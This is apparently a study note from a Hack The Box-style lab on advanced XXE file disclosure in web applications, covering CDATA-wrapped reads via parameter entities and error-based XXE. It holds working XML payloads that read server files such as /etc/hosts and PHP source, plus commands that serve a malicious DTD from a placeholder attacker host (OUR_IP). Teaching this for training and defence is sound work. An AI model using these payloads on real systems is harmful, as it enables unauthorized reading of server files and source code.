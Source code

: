 # 🦑 Advanced File Disclosure

In some cases, the web application may not output any input values in some instances, so we may try to force it through errors.

### Advanced Exfiltration with CDATA

To output data that does not conform to the XML format, we can wrap the content of the external file reference with a `CDATA` tag (e.g. `<![CDATA[ FILE_CONTENT ]]>`). This way, the XML parser would consider this part raw data, which may contain any type of data, including any special characters.

We have to define a `begin` internal entity with `<![CDATA[`, an `end` internal entity with `]]>`, and then place our external entity file in between

```xml
<!DOCTYPE email [
  <!ENTITY begin "<![CDATA[">
  <!ENTITY file SYSTEM "file:///var/www/html/submitDetails.php">
  <!ENTITY end "]]>">
  <!ENTITY joined "&begin;&file;&end;">
]>
```

if we reference the `&joined;` entity, it should contain our escaped data. However, `this will not work, since XML prevents joining internal and external entities`

To bypass this limitation, we can utilize `XML Parameter Entities`, a special type of entity that starts with a `%` character and can only be used within the DTD

```xml
<!ENTITY joined "%begin;%file;%end;">
```

```shell-session
ElFelixi0@htb[/htb]$ echo '<!ENTITY joined "%begin;%file;%end;">' > xxe.dtd
ElFelixi0@htb[/htb]$ python3 -m http.server 8000
```

Now, we can reference our external entity (`xxe.dtd`) and then print the `&joined;` entity we defined above

```xml
<!DOCTYPE email [
  <!ENTITY % begin "<![CDATA["> <!-- prepend the beginning of the CDATA tag -->
  <!ENTITY % file SYSTEM "file:///var/www/html/submitDetails.php"> <!-- reference external file -->
  <!ENTITY % end "]]>"> <!-- append the end of the CDATA tag -->
  <!ENTITY % xxe SYSTEM "http://OUR_IP:8000/xxe.dtd"> <!-- reference our external DTD -->
  %xxe;
]>
...
<email>&joined;</email> <!-- reference the &joined; entity to print the file content -->
```

<figure><img src="../../../../.gitbook/assets/image (1435).png" alt=""><figcaption></figcaption></figure>

### Error Based XXE

If the the web application does not write any output, we would have to look for displays runtime errors (e.g., PHP errors) and see if the app does not have proper exception handling for the XML input, then we can use this flaw to read the output of the XXE exploit.

Let's say we send malformed XML data to the app:

<figure><img src="../../../../.gitbook/assets/image (2) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

We see the web application to display an error, and it also revealed the web server directory, which we can use to read the source code of other files

To exploit this we need to host a DTD file that contains the following payload ->

```xml
<!ENTITY % file SYSTEM "file:///etc/hosts">
<!ENTITY % error "<!ENTITY content SYSTEM '%nonExistingEntity;/%file;'>">
```

In this case, `%nonExistingEntity;` does not exist, so the web application would throw an error saying that this entity does not exist, along with our joined `%file;` as part of the error.

Then we just need to call our hosted DTD script ->

```xml
<!DOCTYPE email [ 
  <!ENTITY % remote SYSTEM "http://OUR_IP:8000/xxe.dtd">
  %remote;
  %error;
]>
```

<figure><img src="../../../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

_**Use either method from this section to read the flag at '/flag.php'. (You may use the CDATA method at '/index.php', or the error-based method at '/error').**_

<figure><img src="../../../../.gitbook/assets/image (3) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../../../.gitbook/assets/image (2) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>
